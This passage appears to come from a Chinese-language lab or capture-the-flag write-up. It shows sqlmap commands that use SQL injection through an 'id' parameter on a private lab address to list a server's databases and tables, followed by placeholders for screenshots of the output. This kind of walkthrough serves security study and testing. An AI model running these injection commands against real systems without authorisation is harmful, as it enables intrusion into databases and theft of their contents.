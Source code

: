 - 找出服务器中的数据库
    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" --dbs`

    - ![](image/database_name.png)

- 找到对应数据库中的表

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" --tables`

    ![](image/database_table1.png)
    
    ![](image/database_table2.png)
